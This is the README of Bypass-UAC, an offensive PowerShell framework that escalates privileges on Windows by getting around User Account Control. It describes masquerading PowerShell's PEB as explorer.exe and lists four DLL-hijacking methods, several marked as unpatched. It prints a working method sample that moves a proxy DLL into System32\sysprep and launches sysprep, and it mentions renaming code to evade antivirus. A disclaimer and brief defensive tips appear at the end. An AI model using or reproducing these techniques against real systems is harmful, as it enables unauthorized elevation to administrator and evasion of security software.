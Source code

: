 # Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodTcmsetup: Hybrid method (tcmsetup -> tcmsetup.exe.local -> comctl32.dll)
  * Targets: x32/x64 Win7+ (currently unpatched)

#### Sample Output

**Win 7 Pro**

![UacMethodSysprep](images/Win7-32.png)

**Win 8 Enterprise**

![ucmDismMethod](images/Win8.1-64.png)

# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are four methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/